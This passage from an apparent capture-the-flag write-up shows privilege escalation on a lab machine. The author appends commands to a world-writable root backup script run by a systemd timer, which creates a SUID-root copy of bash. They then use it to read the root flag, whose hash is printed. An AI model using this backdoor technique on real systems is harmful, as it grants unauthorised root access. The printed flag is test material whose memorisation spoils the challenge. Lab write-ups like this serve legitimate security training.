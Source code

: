 We see that the timerbackup.timer is calling the timerbackup.service which in turn is calling the web\_backup.service, which runs the timer\_backup.sh script. Let's have a look at this script:

```
pericles@time:/home/pericles$ ls -la /usr/bin/timer_backup.sh
ls -la /usr/bin/timer_backup.sh
-rwxrw-rw- 1 pericles pericles 88 Nov 24 16:05 /usr/bin/timer_backup.sh
pericles@time:/home/pericles$ cat /usr/bin/timer_backup.sh
cat /usr/bin/timer_backup.sh
#!/bin/bash
zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip
pericles@time:/home/pericles$ 
```

We can write to the script, which means we should be able to escalate our privileges.​ ​ ​

## Privilege Escalation

Let's add a line to the script as follows:​&#x20;

> echo 'cp /usr/bin/bash /home/pericles/priv; chown root:root /home/pericles/priv; chmod u+s /home/pericles/priv' >> /usr/bin/timer\_backup.sh

```
pericles@time:/home/pericles$ echo 'cp /usr/bin/bash /home/pericles/priv; chown root:root /home/pericles/priv; chmod u+s /home/pericles/priv' >> /usr/bin/timer_backup.sh
<+s /home/pericles/priv' >> /usr/bin/timer_backup.sh
pericles@time:/home/pericles$ cat /usr/bin/timer_backup.sh
cat /usr/bin/timer_backup.sh
#!/bin/bash
zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip
cp /usr/bin/bash /home/pericles/priv; chown root:root /home/pericles/priv; chmod u+s /home/pericles/priv
pericles@time:/home/pericles$
```

After a few seconds, we can see the file is in the user's home directory:

```
pericles@time:/home/pericles$ ls -l
ls -l
total 1628
-rwsr-xr-x 1 root     root     1183448 Nov 24 16:08 priv
drwxr-xr-x 3 pericles pericles    4096 Oct  2  2020 snap
-r-------- 1 pericles pericles      33 Nov 24 11:47 user.txt
pericles@time:/home/pericles$
```

​ ​All we need to do now is run it and we can grab the root flag.

```
pericles@time:/home/pericles$ ./priv -p
./priv -p
priv-5.0# id
id
uid=1000(pericles) gid=1000(pericles) euid=0(root) groups=1000(pericles)
priv-5.0# cd /root
cd /root
priv-5.0# cat root.txt
cat root.txt
6b3ade392fa3e24f4fafb34a624d6a6f
priv-5.0# c

```
